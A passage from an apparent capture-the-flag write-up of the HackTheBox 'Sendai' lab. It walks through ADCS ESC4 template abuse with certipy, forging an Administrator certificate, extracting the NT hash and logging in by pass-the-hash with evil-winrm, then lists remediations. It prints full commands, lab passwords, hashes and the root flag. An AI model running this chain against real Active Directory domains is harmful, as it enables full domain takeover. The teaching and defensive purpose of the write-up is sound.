[Jun 27, 2026 - 00:00:37 (+08)] exegol-htb loot # certipy template -u clifford.davey -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -template SendaiComputer -write-default-configuration -no-save
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'SendaiComputer'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Minimal-Key-Size: 2048
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'SendaiComputer'? (y/N): y
[*] Successfully updated 'SendaiComputer'
```

- A certificate is requested with the Administrator's UPN. The first request succeeds but certipy warns that no object SID is embedded — Windows Server 2022 enforces `StrongCertificateBindingEnforcement` (KB5014754), which rejects certificates without a matching SID at auth time. The request is repeated with `-sid` set to the Administrator's SID (`S-1-5-21-...-500`):

```bash
[Jun 27, 2026 - 00:06:45 (+08)] exegol-htb loot # certipy req -u clifford.davey -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -ca sendai-DC-CA -target 10.129.234.66 -template SendaiComputer -upn administrator@sendai.vl -sid S-1-5-21-3085872742-570972823-736764132-500
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 9
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate object SID is 'S-1-5-21-3085872742-570972823-736764132-500'
[*] Wrote certificate and private key to 'administrator.pfx'
```

- The certificate is authenticated against the DC via PKINIT, which returns the Administrator's NTLM hash:

```bash
[Jun 27, 2026 - 00:06:56 (+08)] exegol-htb loot # certipy auth -pfx administrator.pfx -dc-ip 10.129.234.66 -domain sendai.vl
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sendai.vl'
[*]     SAN URL SID: 'S-1-5-21-3085872742-570972823-736764132-500'
[*]     Security Extension SID: 'S-1-5-21-3085872742-570972823-736764132-500'
[*] Using principal: 'administrator@sendai.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
```

- A shell is obtained using pass-the-hash:

```bash
[Jun 27, 2026 - 00:07:12 (+08)] exegol-htb loot # evil-winrm -i 10.129.234.66 -u administrator -H cfb106feec8b89a3d98e14dcbe8d087a

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ===========================================
sendai\administrator S-1-5-21-3085872742-570972823-736764132-500


GROUP INFORMATION
-----------------

Group Name                                    Type             SID                                         Attributes
============================================= ================ =========================================== ===============================================================
Everyone                                      Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                        Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                 Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access    Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access       Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                          Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users              Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
SENDAI\Group Policy Creator Owners            Group            S-1-5-21-3085872742-570972823-736764132-520 Mandatory group, Enabled by default, Enabled group
SENDAI\Domain Admins                          Group            S-1-5-21-3085872742-570972823-736764132-512 Mandatory group, Enabled by default, Enabled group
SENDAI\Schema Admins                          Group            S-1-5-21-3085872742-570972823-736764132-518 Mandatory group, Enabled by default, Enabled group
SENDAI\Enterprise Admins                      Group            S-1-5-21-3085872742-570972823-736764132-519 Mandatory group, Enabled by default, Enabled group
SENDAI\Denied RODC Password Replication Group Alias            S-1-5-21-3085872742-570972823-736764132-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication              Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level          Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

- The root flag is on the Administrator's Desktop:

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls C:\Users


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         7/18/2023   6:09 AM                Administrator
d-----         6/26/2026   6:08 AM                mgtsvc$
d-r---         7/11/2023  12:36 AM                Public
d-----         8/18/2025   5:05 AM                sqlsvc


*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\Users
*Evil-WinRM* PS C:\Users> cd "C:/Users/Administrator/"
*Evil-WinRM* PS C:\Users\Administrator> cd "C:/Users/Administrator/Desktop/"
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         4/15/2025   8:27 PM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat "C:/Users/Administrator/Desktop/root.txt"
1bc134a7b4ae19fcc072082026d991cf
```

# Remediation

- **Blank/expired passwords**: Accounts with `STATUS_PASSWORD_MUST_CHANGE` had blank passwords, allowing anyone to set a new one and gain access. Enforce a minimum password length policy and audit accounts that have never had a password set.
- **SMB share permissions**: The `config` share granted READ/WRITE to standard domain users, exposing the `.sqlconfig` file with plaintext SQL credentials. Restrict share access to the minimum required accounts.
- **Hardcoded service credentials**: The `helpdesk` service stored domain credentials in its `ImagePath` registry value as plaintext command-line arguments. Use a dedicated service account with a managed password (gMSA) or a secrets manager — never embed credentials in process arguments.
- **ADCS ESC4**: The `ca-operators` group had Full Control over the `SendaiComputer` certificate template, allowing any member to modify it and issue certificates for arbitrary principals including Domain Admin. Audit certificate template permissions and remove dangerous ACEs from non-administrative groups.
- **gMSA password exposure**: The `admsvc` group was granted `ReadGMSAPassword` access over `mgtsvc$`. If this group membership is reachable by low-privileged users (e.g. via a `GenericAll` ACE), the gMSA hash is effectively public. Restrict `PrincipalsAllowedToReadPassword` to only the service hosts that require it.

# Lessons Learnt

- **Check service ImagePath values for embedded credentials.** Custom services that authenticate as domain users often pass `-u` / `-p` flags directly in the command line. This is readable by any authenticated user and is a common misconfiguration.
- **Guest SMB access enables RID brute-forcing.** Even without valid credentials, any username with a blank password returned a guest session, which was enough to enumerate all domain users via `--rid-brute`.
- **`STATUS_PASSWORD_MUST_CHANGE` is an active foothold signal.** It confirms the account exists with a blank password and that it can be activated immediately using `smbpasswd.py`.
- **AdminSDHolder resets DACL and ownership on protected group members.** BloodHound showed ACEs over Anthony.Smith and Domain Admins that looked exploitable, but SDProp had already reset them. Any account that is a member of a protected group (Domain Admins, Administrators, etc.) has its DACL periodically overwritten — ACE-based attacks on these objects have a race condition or will simply fail.
